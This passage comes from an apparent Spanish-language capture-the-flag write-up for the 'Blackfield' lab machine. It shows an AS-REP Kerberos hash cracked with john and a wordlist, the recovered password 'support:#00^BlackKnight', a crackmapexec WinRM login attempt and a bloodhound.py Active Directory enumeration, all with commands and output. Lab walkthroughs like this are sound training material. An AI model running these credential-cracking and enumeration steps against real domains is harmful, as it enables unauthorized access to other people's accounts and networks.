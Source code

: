 Podemos intentar romper el TGT cifrado "\$krb5asrep$23\$" del usuario support y extraer la contraseña. Para esto podemos usar herramientas como john o hashcat.

```bash
❯ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
#00^BlackKnight  ($krb5asrep$23$support@BLACKFIELD.LOCAL)
1g 0:00:00:11 DONE (2023-03-01 09:19) 0.08841g/s 1267Kp/s 1267Kc/s 1267KC/s #1WIF3Y..#*burberry#*1990
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Ya tenemos un usuario (support) y una contraseña (#00^BlackKnight). Vamos a probar una serie de cosas para tratar de acceder a la máquina o escalar privilegios.

No se puede usar WinRM con el usuario que tenemos:

```bash
❯ crackmapexec winrm 10.10.10.192 -u 'support' -p '#00^BlackKnight'
WINRM       10.10.10.192    5985   DC01             [*] Windows 10.0 Build 17763 (name:DC01) (domain:BLACKFIELD.local)
WINRM       10.10.10.192    5985   DC01             [*] http://10.10.10.192:5985/wsman
WINRM       10.10.10.192    5985   DC01             [-] BLACKFIELD.local\support:#00^BlackKnight
```

Por lo tanto aún no podemos acceder a la máquina porque tampoco tenemos permisos de escritura en recursos compartidos para ganar acceso con herramientas como psexec.

### ForceChangePassword

No había ningún recurso compartido que me sea de utilidad. Fuí a enumerar con BloodHound por si me decía algo más de utilidad.

```bash
❯  python3 bloodhound.py -c ALL -u 'support' -p '#00^BlackKnight' -d 'BLACKFIELD.local' -ns 10.10.10.192
```

Si importamos los datos en BloodHound podemos ver cosas interesantes:
